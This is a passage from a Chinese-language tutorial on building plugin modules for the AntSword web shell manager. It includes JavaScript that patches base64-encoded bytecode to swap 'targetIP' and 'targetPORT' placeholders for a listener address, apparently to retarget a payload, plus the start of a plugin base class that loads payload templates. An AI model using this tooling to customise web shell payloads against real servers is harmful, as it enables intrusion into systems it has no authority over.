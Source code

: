 也就是说关键的结构就是这个

![image](https://cdn.nlark.com/yuque/0/2020/png/1599908/1604909146524-fa3af1af-4b7b-4ae4-920e-02a4e8cedc84.png)

其实跟PHP的序列化很相似，首先来个标志位表示变量的类型，然后是变量的长度，最后是变量的内容。

既然知道了其结构，那么修改的办法也就呼之欲出。除了修改变量的hex，只需要再把前面的变量长度给改一下就可以了。

把yan表哥的代码抽出来修改一下，yan表哥yyds。

```
function replaceClassStringVar(b64code, oldvar, newvar) {
    let code = Buffer.from(b64code, 'base64');//解码
    let hexcode = code.toString('hex');//转为16进制
    let hexoldvar = Buffer.from(oldvar).toString('hex');//转为16进制
    let oldpos = hexcode.indexOf(hexoldvar);
    if (oldpos > -1) {//判断字节码中是否包含目标字符串
      let newlength = decimalToHex(newvar.length, 4);//计算新字符串长度
      let retcode = `${hexcode.slice(0, oldpos - 4)}${newlength}${Buffer.from(newvar).toString('hex')}${hexcode.slice(oldpos + hexoldvar.length)}`;//把原来字节码的前后部分截出来，中间拼上新的长度跟内容
      return Buffer.from(retcode, 'hex').toString('base64');//base64编码
    }
    return b64code;
  }
  function decimalToHex(d, padding) {
    var hex = Number(d).toString(16);
    padding = typeof (padding) === "undefined" || padding === null ? padding = 2 : padding;
    while (hex.length < padding) {
      hex = "0" + hex;//小于padding长度就填充0
    }
    return hex;
  }
content=`xxxxxxxxxxxxx`//要替换的字节码
content=replaceClassStringVar(content,'targetIP','192.168.88.129')
content=replaceClassStringVar(content,'targetPORT','9999')
console.log(content)
```



## 编写模块

### 父类Base

Base是所有模块的基类，放了一些默认的方法。

顺着代码来说吧。

```
"use strict";

const LANG = require("../language"); // 插件语言库
const LANG_T = antSword["language"]["toastr"]; // 通用通知提示
const path = require("path");
class Base {
  constructor(top) {//获取顶层对象
    this.top = top;
    this.opt = this.top.opt;
    this.shelltype = this.top.opt.type;
    this.win = this.top.win;
    this.payloadtype="default";
    this.precheck();
  }
  precheck() {  //检查模块是否适用于当前shell类型
    return true;
  }
  //获取payload模板
```